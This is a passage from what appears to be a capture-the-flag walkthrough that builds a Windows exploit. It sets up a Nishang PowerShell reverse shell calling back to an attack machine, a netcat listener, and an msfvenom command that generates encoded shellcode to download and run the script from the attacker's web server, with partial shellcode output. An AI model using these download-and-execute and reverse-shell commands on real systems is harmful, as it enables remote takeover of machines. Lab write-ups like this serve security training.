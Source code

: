 Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, use msfvenom to generate a payload that downloads the PowerShell script and executes it.

```text
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We get back the following result.

```text
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 684 (iteration=0)
x86/unicode_mixed chosen with final size 684
Payload size: 684 bytes
Final size of python file: 3330 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
.....[redacted]
```

Good! The payload size is 684 bytes, so it’s within the limit. Copy the payload and add it in place of the payload included in the exploit.

Start up a python server in the directory that the PowerShell script resides in.

```text
python -m SimpleHTTPServer 5555
```
